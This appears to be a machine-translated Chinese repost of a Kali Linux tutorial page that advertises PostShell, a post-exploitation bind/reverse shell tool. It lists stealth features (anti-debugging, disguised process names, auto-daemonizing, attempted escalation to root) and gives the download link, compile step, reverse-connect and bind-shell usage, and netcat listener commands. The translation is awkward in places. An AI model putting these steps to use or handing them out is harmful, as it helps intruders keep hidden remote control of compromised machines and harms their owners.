


# Post Shell–利用后绑定/反向连接 Shell

> 原文：<https://kalilinuxtutorials.com/postshell-post-exploitation-bind-backconnect-shell/>

PostShell 是一个后开发外壳，包括绑定和后连接外壳。它创建了一个完全交互式的 TTY，允许作业控制。存根大小约为 14kb，可以在任何类似 Unix 的系统上编译。

**截图**

连接开始后与 shell 的横幅和交互。

**也读作-[Metame:用于任意可执行文件的变形代码引擎](https://kalilinuxtutorials.com/metame-metamorphic-code-engine/)**

为什么不使用传统的 Backconnect/Bind Shell？

PostShell 通过减少攻击者对 Python 和 Perl 等依赖项的依赖，使得后期利用更加容易。

它还结合了 back connect 和 bind shell，这意味着如果目标不允许传出连接，操作员可以简单地启动 bind shell 并远程连接到机器。

PostShell 也比传统的 Shell 不那么可疑，因为进程名和参数都被隐藏了。

**特性**

*   反调试，如果检测到 ptrace 连接到 shell，它将退出。
*   进程名/线程名被隐藏，一个假名字覆盖了所有的系统参数和文件名，使它看起来像一个合法的程序。
*   TTY，创建了一个 TTY，它基本上允许像通过 SSH 连接一样使用机器。
*   绑定/反向连接外壳，可以创建绑定外壳和反向连接。
*   小存根大小，通常生成非常小的存根(< 14kb)。
*   自动守护
*   尝试将 GUID/UID 设置为 0(根)

**入门**

**下载:git 克隆 https://github.com/rek7/postshell**

**编译:CD postshell&sh compile . sh 这应该会创建一个名为“存根”的二进制文件这就是恶意软件。**

**命令**

**$。/stub
绑定外壳用法:。/stub port
Back Connect 用法:。/存根 ip 端口
$**

**示例用法**

**回接:**

**$。/存根 127.0.0.1 13377**

**绑定外壳:**

**$。/存根 13377**

**接收与 Netcat 的连接**

**接收反向连接:**

**$ nc -vlp 端口**

**连接到绑定外壳:**

**$ nc 主机端口**

[**Download**](https://github.com/rek7/postshell)